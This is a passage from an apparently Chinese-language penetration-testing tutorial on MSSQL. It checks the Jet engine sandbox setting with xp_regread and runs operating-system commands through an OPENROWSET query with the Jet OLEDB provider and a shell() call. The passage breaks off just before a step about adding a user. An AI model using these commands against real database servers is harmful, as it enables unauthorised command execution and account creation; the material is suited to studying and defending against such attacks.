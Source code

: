 ![关闭沙盒模式](./MsSQL/关闭沙盒模式.png)

查询是否正常关闭，经过测试发现沙盒模式无论是开，还是关，都不会影响我们执行下面的语句。

```sql
exec master.dbo.xp_regread 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines', 'SandBoxMode'
```

![查询是否正常关闭](./MsSQL/查询是否正常关闭.png)

执行系统命令

```sql
select * from openrowset('microsoft.jet.oledb.4.0',';database=c:/windows/system32/ias/ias.mdb','select shell("要执行的系统命令")')
```

进行用户的添加：
